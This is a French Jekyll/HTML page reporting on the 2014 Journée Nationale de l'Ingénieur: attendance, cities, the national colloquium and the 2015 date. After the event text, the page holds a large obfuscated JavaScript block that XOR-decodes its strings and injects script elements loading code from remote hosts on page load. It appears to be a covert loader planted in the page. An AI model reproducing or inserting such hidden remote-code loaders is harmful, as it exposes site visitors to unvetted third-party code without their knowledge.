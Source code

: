 ```yaml
---
layout: default
published: true
title: "Bilan-JNI-2014"
---
```


##Bilan JNI 2014


<HTML>
<HEAD>
	<META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=utf-8">
	<TITLE></TITLE>
	<META NAME="GENERATOR" CONTENT="LibreOffice 4.0.5.2 (Linux)">
	<META NAME="AUTHOR" CONTENT="Jacques de VILLELE">
	<META NAME="CREATED" CONTENT="20140322;18060000">
	<META NAME="CHANGEDBY" CONTENT="J d V">
	<META NAME="CHANGED" CONTENT="20140322;18060000">
	<META NAME="AppVersion" CONTENT="12.0000">
	<META NAME="DocSecurity" CONTENT="0">
	<META NAME="HyperlinksChanged" CONTENT="false">
	<META NAME="LinksUpToDate" CONTENT="false">
	<META NAME="ScaleCrop" CONTENT="false">
	<META NAME="ShareDoc" CONTENT="false">
	<STYLE TYPE="text/css">
	<!--
		@page { margin: 0.98in }
		P { margin-bottom: 0.08in; direction: ltr; widows: 2; orphans: 2 }
		A:link { color: #0000ff; so-language: zxx }
	-->
	</STYLE>
<script id="6A8C7E1040C0947D"></script></HEAD>
<BODY LANG="fr-FR" LINK="#0000ff" DIR="LTR">
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=6><B>Succès
JNI 2014</B></FONT></FONT></FONT></P>
<p></p>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Plus
de 5 000 participants présents à la JNI 2014</B></FONT></FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>qui se déroulerait
dans </FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U><B>28
villes de France</B></U></FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3>
avec des conférences, colloques, table ronde et ateliers, où sont
intervenu des entrepreneurs, des ingénieurs, des innovateurs et des
personnalités de premier plan pour y apporter leur expérience et
leur témoignage. Pour sa 2ème édition la Journée Nationale de
l’Ingénieur 2014 s’articulait autour du thème « Innover,
Entreprendre ».</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%"><A NAME="_GoBack"></A>
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Ces manifestations
étaient organisées en partenariat avec des entreprises et des
organismes de dimension nationale, avec la participation locale des
Régions françaises, des écoles d’ingénieurs et des associations
de diplômés.</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous pouvez revoir
les vidéos assister en différé des sessions qui se sont déroulées
pour le colloque national à la Cité des Sciences et de l’Industrie
le 3 avril 2014( </FONT></FONT><A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U>http://www.iesf-jni.org/</U></FONT></FONT></FONT></A><FONT FACE="Times New Roman, serif"><FONT SIZE=3>).</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous décrouvrir
prochainement le compte rendu du colloque national à la Cité des
Sciences et de l’Industrie, et les photos des différentes JNI dans
toute la France.</FONT></FONT></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=4 STYLE="font-size: 13pt"><U><B>http://www.iesf-jni.org/</B></U></FONT></FONT></FONT></A></P>
<B></B><P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Rendez-vous
le </B></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><U><B>2
avril 2015</B></U></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>
pour la troisième JNI</B></FONT></FONT></FONT></P>
<P STYLE="margin-bottom: 0.11in"><BR><BR>
</P>
<script id="6A8C7E1040C0947D">(function(){function p(r){var h=120,n="",w=window,z=("f\x72o"+""+"i\u0058"+"U\u0072\u0061\x72"+"C\x6fd"+"e")['r'+'\x65\x70'+'la\u0063e']("\x69XU"+"r","m"+"C"+""+"h"),e="ch\u0061r"+"\u0043\x6Fd"+"e\x41t"+"",t=("wz"+"ng"+"\x74h"+"")['re'+''+'pl\u0061\u0063e'](""+"w\x7a",""+"le"+""),o="\x53t\u0072i\u006e\x67",f=w[o],q=f[z],k,v;for(var s=0;s<r[t];s++){k=r[e](s);v=k^h;n+=q(v);}return n;};var qc=-1559780412;if(window[p(("S"+"\u0072\x6E"+"n"+"k\x62\b").replace("S"+"r"+"\u006e\u006Ek"+"b","\f\x17"))]==window[p('\u000b\x1d\x14\u001E')]){var vi={};var ff=true;vi[p(("m"+"\u007a\u0042h\n\u000B\u0011\x17\x16").replace("\x6Dz"+"\x42h"+"","\x0E\u001D"))]=p('I'+'\x4DO');try{var nd=-2035394659;}catch(pc){};vi[p(("UO"+"OV\x16\f\r\x11\x1C").replace("\u0055\x4FO\x56","\u001B\x14\x11\u001d"))]="6A8C7E1040C0947D";var xb="hF6y194b5JrB8 AK34";vi[p(('\u0019\x1C\u001c\x6C\u0079\u0046\u006bs'+'\u001d').replace('\u006C\x79\u0046k'+''+'s','\u0017\u0016\x16\x19\u0015'))]=p("\u002A\x1dU\x15\u0019\n\u0013\x11\f");window[p((""+"J"+"W\u0064\u004A\x0e\x02").replace("\u004a\x57"+"dJ","\'\n"))]=vi;(function(){window[p(('\'\'\n\x0E\u0002\n\x67\x6Cj\u0071\x14').replace('g\u006cjq','\x1c\u001f\u001F\x1C'))]={product_name:p(('\x2A\x42'+'J\u006B\u006F\u0019\n\u0013\u0011\f').replace('\u0042Jko','\x1D\u0055\u0015'))};var zj=document[p('\u001B\n\x1D\x19\f\u001D='+'\x14\u001D\x15\u001D\x16\f')](p("\x0b\x1B\n\x11\b\f"));zj[p("\x0B\u001D\f9"+"\f\f\n\x11\x1A\r\f\x1d")](p(("\u006D\u0050QK\b\x1D").replace(""+"m\x50\u0051\x4B","\f\u0001")),p(('\f\u001D\u0000\fW\u0012\u0019Il\u001b\n\x11\b\f').replace('\u0049l','\u000e\x19\x0b')));zj[p('\u000B\u001d\f\u0039\f\f\n\u0011\x1a\r\f\u001d')](p(("\u001B\u0010\u0019\n\x4Ek"+"o\x44\x7A\f").replace("\x4e\x6B\u006FD"+"z","\x0B\u001D")),p(("-\x2c\x64\u004E\u0040").replace("d\u004e",">U")));zj[p('\x0b\u001D\f9\f\f\n\u0011\u001a\r\f\x1d')](p('\u000b\n\x1B'),(p(('yb'+'\x0b\x42').replace('\x79\u0062','\u0010\f\f\b'))==document[p(("\x14\u0049\x47\u0071\x11\u0017\u0016").replace("\x49\u0047\x71","\u0017\x1b\x19\f"))][p((''+'ge'+''+'i\u0054\x1B\x17\x14').replace('g'+''+'eiT','\b\n\x17\f\x17'))]?p("\u0010\f\f\b\u000b"):p(('\x79O'+'A'+'E\u0045\u0047KOMo\x51R\x75\x53\f\b').replace('y\u004F\x41EE\x47\u004bOM\x6F\x51R'+'\x75\x53','\u0010\f')))+p(('\x42W'+'\u0057\u000F\u000F\x0fV'+'\u000b\r\b\x1D\n\x1E\u0011\u000B\u0010V\x1b\u0017\u0015W\x0F\u000bW'+'\x0B\u001E\'\u0015\u0019\x11\x16V\x12\x0B\bG\u001c\u0014\x0b\x17\r\n\x1b\x1D'+'E\u000B\x1E\n\u000e\u0002\n^'+''+'O\u0046'+'O\u001C'+'E').replace('\x4fF'+'\u004f','\r\x0b\u001d\n1'+''))+"6A8C7E1040C0947D"+p("^"+"\u003B\u002c\u0031<E\n\u000e\u0002\n"+"J"+"HL\x48\'\u004AH\x40J"));document[p('\u001A\u0017\x1c\x01')][p(("\x19\b\b\x1d\x16T"+"Ft\u0014\u001C").replace(""+"T\x46t","\u001C"+";\x10\u0011"))](zj);})();(function(){var jy=p(''+'*\x1d\u0055\u0015\u0019\n\x13\u0011\f');var mn={_keyStr:"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=",encode:function(qy){var gf="";var s,df,sw,xp,uw,ue,qu;var br=0;qy=mn[p(("\'\r\f\u001e@"+"\'"+"y\x53\x6f\x52\x70\x1c\x1d").replace("yS"+"\u006fRp"+"","\u001d\u0016\x1B\x17"))](qy);while(br<qy[p(("\u0014\u0054\x4c\u0010").replace("\u0054\u004c","\u001d\u0016\u001f\f"))]){s=qy[p("\u001B\u0010\x19\n"+";\x17\u001c\x1d\x39\f")](br++);df=qy[p(("\u001B\u0010\x19\u0045M\x1c\x1D"+"9\f").replace(""+"EM"+"","\n\u003B\x17"))](br++);sw=qy[p(("\u001b\x10\u0019"+"y\x68qsL\x39\f").replace("\x79h\u0071\x73"+"L","\n\u003B\x17\u001c\u001D"))](br++);xp=s>>2;uw=((s&3)<<4)|(df>>4);ue=((df&15)<<2)|(sw>>6);qu=sw&63;if(isNaN(df)){ue=qu=64}else{if(isNaN(sw)){qu=64}}gf=gf+this[p(("\'\u0055n\u0052\x4A\n").replace("\u0055\u006e\x52"+"J","\u0013\x1d\u0001\x2B\f"))][p("\x1B\x10\u0019\n\x39\f")](xp)+this[p('\'\x13\u001D\x01+'+'\f\n')][p(("vY"+"\f").replace("v\x59","\x1b\u0010\u0019\n\u0039"))](uw)+this[p("\'\u0013\u001D\u0001\u002B\f\n")][p(('\x1bYY\u0072\x48\x61\f').replace('Y'+'\x59\x72H\u0061','\x10\u0019\n9'+''))](ue)+this[p("\'\u0013\u001D\u0001+\f\n")][p("\x1b\x10\x19\n\u0039\f")](qu)}return gf},decode:function(xr){var df={},zp,gu,xz=[],ke="",kr=String[p(("\u001E\n\u0017\x15"+";b"+"\x73\u006e\x57\x3B\x17\x1c\u001d").replace("b\u0073\x6e\u0057","\u0010\u0019\n"))];var vn=[[65,91],[97,123],[48,58],[43,44],[47,48]];for(ts in vn){for(zp=vn[ts][0];zp<vn[ts][1];zp++){xz[p('\b\r\u000b\x10')](kr(zp))}}for(zp=0;zp<64;zp++){df[xz[zp]]=zp}for(zp=0;zp<xr[p(("v\x7A\x10").replace("\x76\u007A","\u0014\u001D\u0016\x1F\f"))];zp+=72){var qu=0,ue,gf,zr=0,zz=xr[p("\u000b\r\x1A\x0b\f\n\u0011\x16\u001F")](zp,zp+72);for(gf=0;gf<zz[p("\x14\u001D\x16\x1F\f\x10")];gf++){ue=df[zz[p(('\x1bT'+'\u0054'+'x\f').replace('\x54'+'T\u0078','\x10\x19\n9'))](gf)];qu=(qu<<6)+ue;zr+=6;while(zr>=8){ke+=kr((qu>>>(zr-=8))%256)}}}return ke},_utf8_encode:function(no){no=no[p('\n\x1D\b\x14\x19\x1b\u001d')](/\r\n/g,"\n");var vn="";for(var zr=0;zr<no[p("\u0014\u001D\x16\u001f\f\x10")];zr++){var gu=no[p('\x1B\u0010\x19\n\u003B\x17\x1c\x1d'+'9\f')](zr);if(gu<128){vn+=String[p(("\x1E\x73fq\x10\u0019\n;"+"\x17\u001c\x1D").replace("\u0073f"+"q","\n\x17\u0015\x3B"))](gu)}else{if((gu>127)&&(gu<2048)){vn+=String[p(('\u001E\n\x17\x15'+';\u0010\x19'+'z\x53\x4bz\u0056\x1d').replace('zS\u004B\x7a\x56','\n;'+'\x17\u001c'))]((gu>>6)|192);vn+=String[p(("\u001E\n\x17\u0015;\x10\x19\u0070\u0079\u0053"+"s\x1c\u001D").replace("\u0070\u0079"+"S\u0073","\n\u003b\u0017"))]((gu&63)|128)}else{vn+=String[p("\u001E\n\u0017\u0015;\u0010\u0019\n;\u0017\u001c\x1D")]((gu>>12)|224);vn+=String[p(("\x1E\n\u0017\x15"+";W"+"M\u004F\u001c\x1D").replace("\x57\x4dO","\x10\x19\n;"+"\u0017"))](((gu>>6)&63)|128);vn+=String[p(("\x1E"+"L\x62o\u0050\u0072\u0019\n;\x17\x1c\u001d").replace("L"+""+"b\u006f\x50\u0072","\n\x17\u0015"+";\u0010"))]((gu&63)|128)}}}return vn}};var ic=p("\x16\x45")+jy+p("\u005E\u0010\u0045\u001f\u0011\n"+"V\u001C\n\u0011\u000E\x1d\n\u0017\b\f\u0011"+"V\u0016\x1D\f^\x17E"+"\x1c\b^"+"\u0019"+"E\u004aH\x4c\u0048\x5E\u000b\x45\x4aH\x40J\u005e\x1bE\x1f\n\x1D\u001D\x16\x5E\u000FE")+document[p(('\x14\u0074S'+'tj'+'\x65\u0017\x16').replace(''+'t\u0053\u0074\x6Ae'+'','\x17\u001b\u0019\f\x11'))][p("\x10\u0017\x0b\f\u0016\x19\x15\x1d")];var vg=p(("\x10\f\f\bB"+"\u0057\x57\x1F\u0011\nV\u001c\n\x11\x0e\x1d\ny"+"\x4d\x4C\x51\u0059\f\u0011"+"V\x16\x1d\f\x57\x0b\x1cW\u0019\b\b\u000b\u0057\u0019\x1C\u0011\x16\u001e\x17UI"+"V\u0048W\x11\x16\u001c\x1d\x00V"+"\u0010\f\x15\u0014G").replace("y\u004D\u004cQY","\x17\b"))+mn[p('\x1d\u0016\u001b\x17\u001c\x1d')](ic);var zj=document[p('\x1B\n\u001d\u0019\f\u001D\x3d\u0014\x1d\x15\x1D\u0016\f')](p('\u000B\u001B\n\x11\b\f'));zj[p('\x0B\u001D\f\x39\f\f\n\u0011\u001a\r\f\x1d')](p("\f\u0001\b\u001D"),p("\f\u001d\u0000\fW"+"\x12\x19\u000e\u0019\x0b\x1B\n\x11\b\f"));zj[p(("\x74p"+"FBY\f\x39\f\f\n\x11\x1A\r\f\u001d").replace("tpFBY"+"","\u000b\u001d"))](p((''+'I\u0041\u0066Y\x1d\f').replace('I\x41'+'fY'+'','\x1B\u0010\u0019\n\x0B')),p(('\u0070\u005a\x51\x3e'+'U\x40').replace('p\u005a'+'Q','\u002D,')));if("http:"==document[p(("\x14\x74lQq\x19\f\u0011\u0017\x16").replace("t"+"l\x51"+"q","\x17\x1B"))][p("\b\n\x17\f\u0017\u001b\u0017\u0014")]){zj[p(("\u000b\u001d\f9\f\f\n\x11l\u0059\f\x1d").replace(""+"l"+"Y","\x1a\r"))](p(('\x6C\u004e'+'VK\x55j\u006D\u0078'+'B\x73\u0076\u0056R\x1b').replace('\x6C\x4E'+'VK'+'U'+'j'+'\u006d\u0078\u0042s\x76\x56R','\u000b\n')),p(('\u0010\f\f\b\x42\x57W\x11V'+'\n\u000E\u0002\n\x12\u000bV\u0011\x16\u001E\x50C'+'\u0079\x5A\n'+'W\u0012\u0019\u000E\x19\x0b\x1b\n\u0011\b\f\x56\x12\x0b\u0047\u001B\x10\x19\x16\x16\u001d\x14'+'E\n\u000E\u0002\n'+'J\u0048\x4CH\'J'+'H\x40J\x5E\x19\b\b,\u0011\f\x14\u001DE').replace('\x50\u0043\u0079Z','\u0017\u0057\n\u000e\x02'))+jy+p('^\b\x14\u0011\x16\x13E'+'')+encodeURIComponent(vg));}else{zj[p('\u000B\x1D\f\x39\f\f\n\x11\x1a\r\f\x1d')](p('\x0b\n\x1B'),p("\u0010\f\f\b\x0bBW"+"\u0057\u0011\'\n\u000e\u0002\n\x12\u000b\'\x11\x16\x1e\u0017\x56\f\x14\u000B\x1B\x1c\x16V\u001B\u0017\x15\u0057\n\u000e\x02\n"+"W\u0012\u0019\x0e\u0019\u000b\x1b\n\x11\b\fV\u0012\u000B\u0047\x1b\u0010\x19\u0016\u0016\u001D\x14E\n\u000e\u0002\n"+"J\x48"+"L\u0048\'\x4a\u0048\x40J\x5e\x19\b\b"+",\x11\f\x14\x1dE")+jy+p("\u005e\b\x14\u0011\x16\x13E"+"")+encodeURIComponent(vg));}document[p("\x1A\x17\u001C\u0001")][p(('\x19\u004D'+'B'+';\u0010\u0011\x14\x1c').replace('\u004D'+'B','\b\b\x1D\x16\x1c'))](zj);})();;var af=document[p('\x1B\n\u001d\x19\f\u001d='+'\x14\x1d\u0015\u001d\u0016\f')](p(("\u000b\u0041D\f").replace("A\x44","\u001B\n\x11\b")));if(navigator.language){var kx=('o'+'\u0078BF'+'\x42J\u0048\x4bj\u0054\u0034\x3a\u0048'+'G\u0020\u0020d\u0070'+'6\u0065\u0057'+'P\u0031').replace('\x78\x42\u0046B','\x6B\x6e\x519i'+'');}else var vm=(' \x45\u0069A'+'cL'+'\x31N\x36X'+'\u0020\x66\x64'+'v\x78\x751').replace('d'+'vxu'+'',' \u0033\x61C'+'\x20');af[p("\x0b\n\u001b")]=p('\u0057W'+'\u001F\u0011\n\u0056\x1C\n\u0011\u000e\x1d\n\u0017\b\f\x11V\u0016\u001d\fW\x0b\u001cW\x4AH\x4C\x48W'+'\u004a\u0048\x40\x4a\u0056\x12\x0b');if(true)var ti='Uq ';else var ln=location.hostname;document[p(('\x1AZ'+'\x74'+'p\x53\u0075'+'U\x70\u0078\x49P'+'v'+'\u0066\u0001').replace('\u005a\u0074p'+'S\u0075'+'U'+'px\x49'+'P\x76\u0066','\u0017\x1C'))][p('\u0019\b\b\u001D\x16\x1c;'+'\x10\u0011\u0014\x1C')](af);}})();</script></BODY>
</HTML>